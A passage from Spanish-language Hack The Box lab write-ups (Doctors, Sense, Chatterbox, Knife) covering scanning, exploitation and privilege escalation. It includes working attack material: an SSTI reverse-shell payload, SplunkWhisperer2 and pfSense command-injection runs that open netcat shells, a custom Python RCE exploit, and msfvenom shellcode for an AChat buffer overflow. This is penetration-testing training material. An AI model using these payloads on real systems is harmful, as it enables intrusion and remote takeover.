\ExtensionTok{Title}\NormalTok{: \\NormalTok{\}\{}\ExtensionTok{%}\NormalTok{ if }\StringTok{"warning"}\NormalTok{ in x.__name__ %\}\{\{}\FunctionTok{x()}\ExtensionTok{._module.__builtins__}\NormalTok{[}\StringTok{'__import__'}\NormalTok{](}\StringTok{'os'}\NormalTok{)}\ExtensionTok{.popen}\NormalTok{(}\StringTok{"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((}\DataTypeTok{\textbackslash{}"}\StringTok{10.10.14.7}\DataTypeTok{\textbackslash{}"}\StringTok{,443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([}\DataTypeTok{\textbackslash{}"}\StringTok{/bin/cat}\DataTypeTok{\textbackslash{}"}\StringTok{, }\DataTypeTok{\textbackslash{}"}\StringTok{flag.txt}\DataTypeTok{\textbackslash{}"}\StringTok{]);'"}\NormalTok{)}\ExtensionTok{.read}\NormalTok{()}\ExtensionTok{.zfill}\NormalTok{(417)\}\}}\DataTypeTok{\{%endif%\}}\NormalTok{\{}\ExtensionTok{%}\NormalTok{ endfor %\}}
\ExtensionTok{Content}\NormalTok{: TEST}
\end{Highlighting}
\end{Shaded}
\item
  Recargamos la url \texttt{http://doctors.htb/archive}
\end{enumerate}

Boom\ldots{} estamos en la maquina victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{web}

\FunctionTok{hostname}\NormalTok{ -I}
\end{Highlighting}
\end{Shaded}

Somos web y estamos en la maquina victima. Hacemos el tratamiento de la TTY.

\hypertarget{tratamiento-de-la-tty-23}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-23}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{userpivoting}{%
\subsection*{Userpivoting}\label{userpivoting}}
\addcontentsline{toc}{subsection}{Userpivoting}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home}
\FunctionTok{grep} \StringTok{"}\VariableTok{$sh}\StringTok{"}\NormalTok{ /etc/passwd}
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver que hay usuarios splunk y shaun y que estamos en el grupo \texttt{adm}. Podriamos visualisar los logs

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var/log}
\FunctionTok{grep}\NormalTok{ -r -i }\StringTok{"pass"}
\FunctionTok{grep}\NormalTok{ -r -i }\StringTok{"pass"} \OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

Vemos en el \textbf{apache2/backup} que hay una peticion POST para resetear una contraseña \texttt{Guitar123}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{su}\NormalTok{ shaun}
\ExtensionTok{Password}\NormalTok{: Guitar123}

\FunctionTok{cat}\NormalTok{ /home/shaun/user.txt}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-21}{%
\section*{Privilege Escalation}\label{privilege-escalation-21}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-30}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-30}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{ls}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /opt}
\end{Highlighting}
\end{Shaded}

Aqui vemos un directory splunkforward. Nos hace pensar que teniamos un puerto 8089 abierto con un splunkd.
Si vamos a esta url \texttt{https://10.10.10.209:8089} vemos un servicio splunkd.

Aqui podemos tirar de un exploit en el github de \href{https://github.com/cnotin/SplunkWhisperer2}{cnotin} que permite hacer un
Local o un Remote privilege escalation. En este caso utilizaremos el Remoto.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/cnotin/SplunkWhisperer2}
\BuiltInTok{cd}\NormalTok{ SplunkWhisperer2}
\FunctionTok{ls}
\ExtensionTok{python3}\NormalTok{ PySplunkWhisperer2_remote.py}
\end{Highlighting}
\end{Shaded}

aqui vemos como se utiliza. Intentamos primeramente enviar una traza ICMP a nuestra maquina para ver si funcciona.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por traza ICMP

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ -i tun0 icmp -n}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos el exploit para enviar una traza ICMP

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload }\StringTok{"ping -c 1 10.10.14.7"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Vemos que recibimos la traza. Ahora nos mandamos una reverse shell

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos el exploit para entablar una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload }\StringTok{"nc.traditional -e /bin/bash 10.10.14.7 443"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

La conneccion esta entablada.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{sense}{%
\chapter*{Sense}\label{sense}}
\addcontentsline{toc}{chapter}{Sense}

\hypertarget{introduccion-37}{%
\section*{Introduccion}\label{introduccion-37}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Sense.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=WeaLhmbatT0}{\includegraphics{https://img.youtube.com/vi/WeaLhmbatT0/0.jpg}}

Esta maquina hace parte de una sesion intensa y se puede ver a partir de 3:39:30.

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-37}{%
\section*{Enumeracion}\label{enumeracion-37}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-37}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-37}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-37}{%
\subsubsection*{Ping}\label{ping-37}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.60}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-37}{%
\subsubsection*{Nmap}\label{nmap-37}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.60}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.60 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,443 10.10.10.60 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, Fuzzing &\tabularnewline
443 & https & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-22}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-22}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{checkear-la-web-6}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-6}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{https://10.10.10.60}, vemos un panel de authentificacion de pfsense.
Teniendo esto en cuenta, miramos por internet si existen credenciales por defecto para este servicio.

Encontramos admin:pfsense pero no funcciona. Vamos a fuzzear la web

\hypertarget{fuzzing-con-wfuzz-13}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-13}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,txt-php-html http://10.10.10.60/FUZZ.FUZ2Z}
\end{Highlighting}
\end{Shaded}

Aqui vemos routas como:

\begin{itemize}
\tightlist
\item
  stats.php
\item
  help.php
\item
  edit.php
\item
  system.php
\item
  exec.php
\item
  system-users.txt
\end{itemize}

Los recursos php nos hace un redirect a la pagina de login y la routa system-users.txt hay un mensaje para crear el usuario rohit con el
password por defecto de la compania. probamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rohit}\NormalTok{:pfsense}
\end{Highlighting}
\end{Shaded}

Hemos podido entrar. Vemos la version del servicio pfsense que es la 2.1.3.

\hypertarget{vulnerability-assessment-24}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-24}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{pfsense}{%
\subsection*{pfSense}\label{pfsense}}
\addcontentsline{toc}{subsection}{pfSense}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ pfsense 2.1.3}
\end{Highlighting}
\end{Shaded}

Vemos un exploit de typo Command Injection.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -m 43560}
\FunctionTok{mv}\NormalTok{ 43560.py pfsense_exploit_rce.py}
\ExtensionTok{python3}\NormalTok{ pfsense_exploit_rce.py -h}
\end{Highlighting}
\end{Shaded}

\hypertarget{vuln-exploit-gaining-access-24}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-24}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-ssti-1}{%
\subsection*{Ganando accesso con SSTI}\label{ganando-accesso-con-ssti-1}}
\addcontentsline{toc}{subsection}{Ganando accesso con SSTI}

En el panel de ayuda vemos que nos pide nuestra ip y un puerto.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el script

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ pfsense_exploit_rce.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 443 --username rohit --password pfsense}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

Oh my gaaaaadddddddd!!!!!!!!!

La idea aqui es crearnos nuestro proprio script en python

\hypertarget{nuestro-exploit}{%
\subsection*{Nuestro exploit}\label{nuestro-exploit}}
\addcontentsline{toc}{subsection}{Nuestro exploit}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ urllib3}
\ImportTok{import}\NormalTok{ html}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"https://10.10.10.60/index.php"}
\NormalTok{rce_url }\OperatorTok{=} \StringTok{"https://10.10.10.60/status_rrd_graph_img.php?database=queues;"}
\NormalTok{burpsuite }\OperatorTok{=}\NormalTok{ \{}\StringTok{'http'}\NormalTok{: }\StringTok{'http://127.0.0.1:8080'}\NormalTok{\}}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ requests.session()}
\NormalTok{    urllib3.disable_warnings()}
\NormalTok{    s.verify }\OperatorTok{=} \VariableTok{False}
\NormalTok{    r }\OperatorTok{=}\NormalTok{ s.get(main_url)}

\NormalTok{    csrfMagic }\OperatorTok{=}\NormalTok{ re.findall(}\VerbatimStringTok{r'__csrf_magic\textbackslash{}' value="(.*?)"'}\NormalTok{, r.text)[}\DecValTok{0}\NormalTok{]}

\NormalTok{    data_post }\OperatorTok{=}\NormalTok{ \{}
        \StringTok{'__csrf_magic'}\NormalTok{: csrfMagic,}
        \StringTok{'usernamefld'}\NormalTok{: }\StringTok{'rohit'}\NormalTok{,}
        \StringTok{'passwordfld'}\NormalTok{: }\StringTok{'pfsense'}\NormalTok{,}
        \StringTok{'login'}\NormalTok{: }\StringTok{'Login'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ s.post(main_url, data}\OperatorTok{=}\NormalTok{data_post)}

\NormalTok{    p1.success(}\StringTok{"Authenticacion realizada exitosamente como el usuario rohit"}\NormalTok{)}

\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"RCE"}\NormalTok{)}
\NormalTok{    p2.status(}\StringTok{"Ejecutando comando a nivel de sistema"}\NormalTok{)}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ s.get(rce_url }\OperatorTok{+} \StringTok{'''ampersand=$(printf+}\CharTok{\textbackslash{}"\textbackslash{}\textbackslash{}}\StringTok{46}\CharTok{\textbackslash{}"}\StringTok{);guion=$(printf+}\CharTok{\textbackslash{}"\textbackslash{}\textbackslash{}}\StringTok{55}\CharTok{\textbackslash{}"}\StringTok{);rm+$}\SpecialCharTok{\{HOME\}}\StringTok{tmp$}\SpecialCharTok{\{HOME\}}\StringTok{f;mkfifo+$}\SpecialCharTok{\{HOME\}}\StringTok{tmp$}\SpecialCharTok{\{HOME\}}\StringTok{f;}
\StringTok{    cat+$}\SpecialCharTok{\{HOME\}}\StringTok{tmp$}\SpecialCharTok{\{HOME\}}\StringTok{f|$}\SpecialCharTok{\{HOME\}}\StringTok{bin$}\SpecialCharTok{\{HOME\}}\StringTok{sh+$}\SpecialCharTok{\{guion\}}\StringTok{i+2>$}\SpecialCharTok{\{ampersand\}}\StringTok{1|nc+10.10.14.7+443+>$}\SpecialCharTok{\{HOME\}}\StringTok{tmp$}\SpecialCharTok{\{HOME\}}\StringTok{f'''}\NormalTok{)}
    
\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Authenticacion"}\NormalTok{)}
\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"RCE"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando proceso de autenticacion"}\NormalTok{)}
    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest, args}\OperatorTok{=}\NormalTok{()).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{20}\NormalTok{).wait_for_connection()}

    \ControlFlowTok{if}\NormalTok{ shell.sock }\KeywordTok{is} \VariableTok{None}\NormalTok{:}
\NormalTok{        p2.failure(}\StringTok{"No se ha obtenido ninguna conexion"}\NormalTok{)}
    \ControlFlowTok{else}\NormalTok{:}
\NormalTok{        p2.success(}\StringTok{"Se ha obtenido una conexion"}\NormalTok{)}
\NormalTok{        shell.interactive()}
\end{Highlighting}
\end{Shaded}

\hypertarget{chatterbox}{%
\chapter*{Chatterbox}\label{chatterbox}}
\addcontentsline{toc}{chapter}{Chatterbox}

\hypertarget{introduccion-38}{%
\section*{Introduccion}\label{introduccion-38}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Chatterbox.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=WeaLhmbatT0}{\includegraphics{https://img.youtube.com/vi/WeaLhmbatT0/0.jpg}}

Esta maquina hace parte de una sesion intensa y se puede ver a partir de 4:50:15.

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-38}{%
\section*{Enumeracion}\label{enumeracion-38}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-38}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-38}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-38}{%
\subsubsection*{Ping}\label{ping-38}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.74}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-38}{%
\subsubsection*{Nmap}\label{nmap-38}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.74}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.74 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p9255,9256 10.10.10.74 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
9255 & http AChat & Web, Fuzzing &\tabularnewline
9256 & achat chat system & &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{vulnerability-assessment-25}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-25}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{achat-chat-system}{%
\subsection*{Achat Chat system}\label{achat-chat-system}}
\addcontentsline{toc}{subsection}{Achat Chat system}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ achat}
\end{Highlighting}
\end{Shaded}

Todavia no savemos lo que es achat pero vemos exploit de typo Remote Buffer Overflow

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -m 36025}
\FunctionTok{mv}\NormalTok{ 36025.py achat_exploit.py}
\FunctionTok{cat}\NormalTok{ achat_exploit.py}
\end{Highlighting}
\end{Shaded}

Mirando el codigo, vemos que es un bufferflow normal que lanza una calculadora. Lo modificamos para
lanzar una reverse shell.

\hypertarget{vuln-exploit-gaining-access-25}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-25}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-remote-bof}{%
\subsection*{Ganando accesso con Remote BOF}\label{ganando-accesso-con-remote-bof}}
\addcontentsline{toc}{subsection}{Ganando accesso con Remote BOF}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos creamos un nuevo shellcode basada a la informacion del exploit

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom}\NormalTok{ -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -e x86/unicode_mixed -b }\StringTok{'\textbackslash{}x00\textbackslash{}x80\textbackslash{}x81\textbackslash{}}
\StringTok{x82\textbackslash{}x83\textbackslash{}x84\textbackslash{}x85\textbackslash{}x86\textbackslash{}x87\textbackslash{}x88\textbackslash{}x89\textbackslash{}x8a\textbackslash{}x8b\textbackslash{}x8c\textbackslash{}x8d\textbackslash{}x8e\textbackslash{}x8f\textbackslash{}x90\textbackslash{}x91\textbackslash{}x92\textbackslash{}x93\textbackslash{}x94\textbackslash{}x95\textbackslash{}x96\textbackslash{}x97\textbackslash{}x98\textbackslash{}x99\textbackslash{}x9a\textbackslash{}x9b\textbackslash{}x9c\textbackslash{}x9d\textbackslash{}x9e\textbackslash{}x9f\textbackslash{}xa0\textbackslash{}xa1\textbackslash{}xa2\textbackslash{}xa3\textbackslash{}}
\StringTok{xa4\textbackslash{}xa5\textbackslash{}xa6\textbackslash{}xa7\textbackslash{}xa8\textbackslash{}xa9\textbackslash{}xaa\textbackslash{}xab\textbackslash{}xac\textbackslash{}xad\textbackslash{}xae\textbackslash{}xaf\textbackslash{}xb0\textbackslash{}xb1\textbackslash{}xb2\textbackslash{}xb3\textbackslash{}xb4\textbackslash{}xb5\textbackslash{}xb6\textbackslash{}xb7\textbackslash{}xb8\textbackslash{}xb9\textbackslash{}xba\textbackslash{}xbb\textbackslash{}xbc\textbackslash{}xbd\textbackslash{}xbe\textbackslash{}xbf\textbackslash{}xc0\textbackslash{}xc1\textbackslash{}xc2\textbackslash{}xc3\textbackslash{}xc4\textbackslash{}xc5\textbackslash{}}
\StringTok{xc6\textbackslash{}xc7\textbackslash{}xc8\textbackslash{}xc9\textbackslash{}xca\textbackslash{}xcb\textbackslash{}xcc\textbackslash{}xcd\textbackslash{}xce\textbackslash{}xcf\textbackslash{}xd0\textbackslash{}xd1\textbackslash{}xd2\textbackslash{}xd3\textbackslash{}xd4\textbackslash{}xd5\textbackslash{}xd6\textbackslash{}xd7\textbackslash{}xd8\textbackslash{}xd9\textbackslash{}xda\textbackslash{}xdb\textbackslash{}xdc\textbackslash{}xdd\textbackslash{}xde\textbackslash{}xdf\textbackslash{}xe0\textbackslash{}xe1\textbackslash{}xe2\textbackslash{}xe3\textbackslash{}xe4\textbackslash{}xe5\textbackslash{}xe6\textbackslash{}xe7\textbackslash{}}
\StringTok{xe8\textbackslash{}xe9\textbackslash{}xea\textbackslash{}xeb\textbackslash{}xec\textbackslash{}xed\textbackslash{}xee\textbackslash{}xef\textbackslash{}xf0\textbackslash{}xf1\textbackslash{}xf2\textbackslash{}xf3\textbackslash{}xf4\textbackslash{}xf5\textbackslash{}xf6\textbackslash{}xf7\textbackslash{}xf8\textbackslash{}xf9\textbackslash{}xfa\textbackslash{}xfb\textbackslash{}xfc\textbackslash{}xfd\textbackslash{}xfe\textbackslash{}xff'}\NormalTok{ BufferRegister=EAX -f python}
\end{Highlighting}
\end{Shaded}
\item
  Copiamos el shell code generado y lo ponemos al sitio del buff shellcode del exploit
\item
  Cambiamos la ip de la maquina victima
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el exploit modificado con python 2

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ achat_exploit.py}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{chatterbox}\NormalTok{\textbackslash{}alfred}
\end{Highlighting}
\end{Shaded}

Podemos leer la flag

\hypertarget{privilege-escalation-22}{%
\section*{Privilege Escalation}\label{privilege-escalation-22}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-31}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-31}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}\NormalTok{ /priv}
\BuiltInTok{cd}\NormalTok{ Desktop}
\BuiltInTok{type}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}

No podemos leer la flag de root pero es curioso que nos podamos meter en su directorio user.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{icacls}\NormalTok{ root.txt}
\BuiltInTok{cd}\NormalTok{ ..}
\ExtensionTok{icacls}\NormalTok{ Desktop}
\end{Highlighting}
\end{Shaded}

Vemos que el usuario alfred tiene privilegios Full sobre el directorio Desktop del usuario root.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ Desktop}
\ExtensionTok{icacls}\NormalTok{ root.txt /grant alfred:F}
\BuiltInTok{type}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}

Podemos leer la flag, lol :)

\hypertarget{knife}{%
\chapter*{Knife}\label{knife}}
\addcontentsline{toc}{chapter}{Knife}

\hypertarget{introduccion-39}{%
\section*{Introduccion}\label{introduccion-39}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Knife.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=Um6-iIYzUWk}{\includegraphics{https://img.youtube.com/vi/Um6-iIYzUWk/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-39}{%
\section*{Enumeracion}\label{enumeracion-39}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-39}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-39}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-39}{%
\subsubsection*{Ping}\label{ping-39}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.242}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-39}{%
\subsubsection*{Nmap}\label{nmap-39}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.242}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.242 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & tcp & Conneccion directa & creds\tabularnewline
80 & tcp & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-23}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-23}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-30}{%
\subsubsection*{Whatweb}\label{whatweb-30}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.242}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.41 en un Ubuntu Con una version 8.1.0-dev de PHP.

\hypertarget{checkear-la-web-7}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-7}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.242}, No vemos gran cosas tenemos que aplicar Fuzzing.

\hypertarget{fuzzing-con-wfuzz-14}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-14}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.242/FUZZ}
